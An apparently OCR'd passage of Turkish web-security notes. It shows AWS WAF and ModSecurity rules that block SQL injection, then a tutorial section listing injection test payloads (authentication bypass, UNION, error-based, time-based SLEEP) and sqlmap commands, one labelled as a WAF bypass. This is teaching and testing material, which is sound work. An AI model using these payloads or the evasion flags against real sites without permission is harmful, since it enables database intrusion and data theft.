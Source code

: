 ```nginx
      "FieldToMatch": {"Body": {}},
      "PositionalConstraint": "CONTAINS",
      "SearchString": "union select"
    }
  },
  "Action": {"Block": {}},
  "VisibilityConfig": {
    "SampledRequestsEnabled": true,
    "CloudWatchMetricsEnabled": true,
    "MetricName": "Block-SQL-Injection"
  }
}

ModSecurity Kuralı
apache

SecRule REQUEST_FILENAME|ARGS|REQUEST_BODY "@detectSQLi" \
    "id:1001,\
    phase:2,\
    block,\
    msg:'SQL Injection Attack Detected',\
    severity:'CRITICAL'"

4. SQL Injection & Test Yöntemleri
4.1 SQL Injection Nedir?

    Kötü niyetli SQL kodu enjeksiyonu

    Hedef: Veritabanını manipüle etme

4.2 GET Metodu ile Test
text

Normal:   https://site.com/urun?id=1
Injection: https://site.com/urun?id=1' OR '1'='1

4.3 Temel Test Payload'ları
sql

-- Authentication Bypass
' OR '1'='1
admin' --

-- Union-Based
' UNION SELECT 1,2,3 --

-- Error-Based  
' AND (SELECT 1 FROM (SELECT COUNT(*)...)) --

-- Time-Based
' AND SLEEP(5) --

4.4 SQLMap Kullanımı
bash

# Temel tarama
sqlmap -u "http://site.com/page?id=1"

# Detaylı tarama
sqlmap -u "http://site.com/page?id=1" --dbs --tables

# WAF bypass
sqlmap -u "http://site.com/page?id=1" --random-agent --delay=2
```